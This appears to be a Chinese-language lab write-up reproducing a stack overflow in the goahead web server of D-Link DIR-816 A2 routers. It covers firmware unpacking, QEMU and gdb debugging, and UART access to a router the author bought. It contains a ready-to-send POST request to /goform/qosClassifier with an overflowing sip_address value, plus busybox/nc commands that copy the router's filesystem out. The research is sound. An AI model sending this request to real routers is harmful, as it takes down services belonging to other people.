# DIR816路由器栈溢出复现和深入探索

## 路由器漏洞分析

在官网下载对应版本固件

https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

固件：
[DIR-816A2_FWv1.10CNB05_R1B011D88210.img](imgs/DIR-816A2_FWv1.10CNB05_R1B011D88210.img)

使用 `binwalk` 查看信息，没有加密，因此直接进行解包，提取出系统进行分析。

```bash
binwalk -Me DIR-816A2_FWv1.10CNB05_R1B011D88210.img
find ./ -iname 'busybox'
cp -r ./extractions/DIR-816A2_FWv1.10CNB05_R1B011D88210.img.extracted/0/Linux_Kernel_Image.bin.extracted/1822EE/squashfs-root/ .
```



这个漏洞存在于 `/bin/goahead` 程序中 `isIpNetmaskValid` 函数中，由于主调函数的 `sip_address` 和 `dip_address` 参数可控，在其后传参并调用的此函数中，直接对字符串进行了写入操作，无论传入参数的长度如何，都会被复制到 `local_30` 缓冲区中，存在漏洞调用路径的入口函数有三个 `FUN_0044ab48` `FUN_0044dde8` 和 `FUN_0046bb80`，在这里我使用了 `FUN_0046bb80` 进行漏洞复现。

( `FUN_0046bb80` 中，关于 `sip_address` 和 `dip_address` 的获取。 )



( `FUN_0046bb80` 中，将 `sip_address` 和 `dip_address` 传入危险函数。 )



( `isIpNetmaskValid` 中，漏洞片段。 )



也就是我们可以使用 `sip_address` 或 `dip_address` 参数，对其进行栈溢出攻击。接着，我们去寻找触发漏洞的Web接口，首先，根据后续的流程检查，构造适当的 padding 数据以确保程序能顺利执行到目标函数，然后补充最简单的漏洞测试脚本。



得到的必须参数：
（此处参数 `pktlenfrom=Aremark_dscp=A` 应当为 `pktlenfrom=A&remark_dscp=A` 但不影响结果，下文出现的也相同）

```nginx
dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=vul
```

然后，对交叉引用进行跟踪，发现函数 `formDefineFirewall` 定义了相关的接口调用。



于是，我们可以了解最终调用的接口是 `/goform/qosClassifier` ，最终包为：

```
POST /goform/qosClassifier HTTP/1.1
Content-Length: 471
Host: 192.168.1.2
Content-Type: application/x-www-form-urlencoded
Connection: close

dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## 漏洞模拟复现分析

我们使用qemu user进行仿真模拟：

```bash
sudo chroot . ./qemu-mipsel-static -strace ./bin/goahead
```

然后对所有出现的报错进行patch修改，即使能看到多出天际的报错，至少是跑起来了，毕竟和真机的环境差了十万八千里，能够运行起来、成功复现漏洞就实现了这一部分的最终目的。



我们使用 burp 对主页抓包，然后修改内容为我们的目标包：



可以看到我们仿真的程序出现了segmentation fault，大概率认定是栈溢出的结果，。



我们使用gdb进行进一步的调试,将断点设置在目标函数 `isIpNetmaskValid` 上：

```bash
sudo chroot . ./qemu-mipsel-static -strace -g 1234 ./bin/goahead
```

```bash
gdb-multiarch ./bin/goahead
set architecture mips
target remote :1234

b isIpNetmaskValid
c
```



此时，使用burp再次发包，观察断点，可以发现，此时栈上以及被我们写满了'AAAA'。确认是我们刚刚的payload生效才导致的栈溢出和segmentation fault。



## 真机漏洞复现和调试

在海鲜市场花费15包邮淘了一个 DIR816 路由器，看起来还是很新的，是和漏洞同版本的 A2 国版。可以看到，所有的服务都可以正常运行（至少看起来是这样）。



先测试一下固件漏洞是否相同，找一个post请求写入我们的payload，进行测试，可以看到web服务直接下线了，证明此固件版本是存在这个漏洞的。







为了进一步进行调试，我们需要使用电烙铁焊接路由器的调试口，然后使用FT232对电脑进行连接。

### 真机调试环境安装

首先，使用电烙铁和吸锡器清除堵在调试口上的锡，接着，开机后测量GND和其他引脚的电压，依次确认调试口分别为： VCC GND TX RX，如 图 3-6 3-7 所示，再使用电烙铁将4PIN直排针焊上。

（关于如何判断UART口的线序：关机状态下使用万用表蜂鸣档连接天线，与天线相连的引脚通常是GND。然后将万用表调为直流电压档位，黑色表笔插入GND口，将路由器开机。红色表笔依次放在其他接口中，VCC口通常会给出一个持续、稳定的电压；TX口也会给出一个电压，但是并不总是稳定（有信号输出时会变化）；RX口往往会保持0V，因为这是路由器接收输入的接口。

注意，优先判断调试口的类型而非进行直排针的焊接，焊接后开机测量时容易误触导致短路。

高清原图链接 .pictures/CVE-2025-5623-3-6-ori.png



高清原图链接 .pictures/CVE-2025-5623-3-7-ori.png



接着，将引脚按照如下顺序，依次从路由器UART口连接到FT232对应的引脚上，再将其插入电脑，使用自带电源开启路由器后，可以看到已经连接的/dev/ttyUSB0。

```
路由器   FT232
VCC   -   VCC  # 绿色线
GND   -   GND  # 黄色线
TX    -    RX  # 橙色线
RX    -    TX  # 黑色线
    未使用      # 红色
    未使用      # 蓝色 
```



接着，我们可以使用 `cutecom` 或 `minicom` 等软件进行调试，这里我使用了 `cutecom` 进行连接测试、后续我将使用 `minicom` 进行调试，将设备设置为 `/etc/ttyUSB0` ，比特率57600。再将路由器重新开机，即可看到信息，说明连接正常：



可以看到，我们从这里连接shell时用户的ID为0，拥有最高的权限。



再使用网线连接路由器的LAN口，使其与主机相通，这里我使用一个交换机来连接这两个设备。主机同时配置了两个IP地址：`192.168.1.2` 用于通过路由器A访问外网，`192.168.0.2` 用于访问DIR-816（`192.168.0.1`）的服务。注意，`192.168.0.1` 和 `192.168.1.2` 都属于主机的网络配置。

```bash
sudo ip addr add 192.168.0.2/24 dev eno1
```


```mermaid
graph TD
    subgraph 网络1 [192.168.1.0/24]
        A[路由器A<br>192.168.1.1]
        H[主机<br>192.168.1.2]
    end
    subgraph 网络2 [192.168.0.0/24]
        H2[主机新增IP<br>192.168.0.2]
        B[DIR-816<br>192.168.0.1]
    end

    S[交换机]
    S -- 端口1 --> A
    B -- 端口1 --> S
    H -- 主IP --> S
    H2 -- 新增IP --> S
```

- `192.168.1.2`（主机）用于通过路由器A访问外网。
- `192.168.0.2`（主机）用于访问DIR-816（`192.168.0.1`）的服务。
- 主机同时拥有两个IP地址，分别属于不同网段，实现与两个路由器的通信。

接着，我们上传一个内容更加丰富的busybox程序，用于更加方便的进行操作。

本机：从[busybox.net](https://busybox.net/downloads/binaries/1.21.1)下载对应架构的busybox，将其放到tftp服务器的/srv/tftp目录下（注意设置目录权限）。

虚拟机可以直接通过主机的tftp服务获取busybox。
```bash 
tftp -g -r busybox-mipsel -l /tmp/busybox 192.168.0.2
chmod +x busybox 
./busybox  
```



接下来，我们可以使用更多的程序来进行更为便捷的操作，例如可以使用nc更为高效的传递文件等。

我们可以在此处打包一份固件备用。

```bash
/tmp/busybox tar -cvf /tmp/system_backup.tar / --exclude=proc --exclude=run --exclude=dev --exclude=mnt --exclude=sys --exclude=tmp
/tmp/busybox nc -l 192.168.0.2 8888 < /tmp/system_backup.tar
```



然后我们使用 Ghidra 从 `goahead` 程序开始分析。(恶补了 mips 知识)

---

参考资料：
- https://paper.seebug.org/1036/
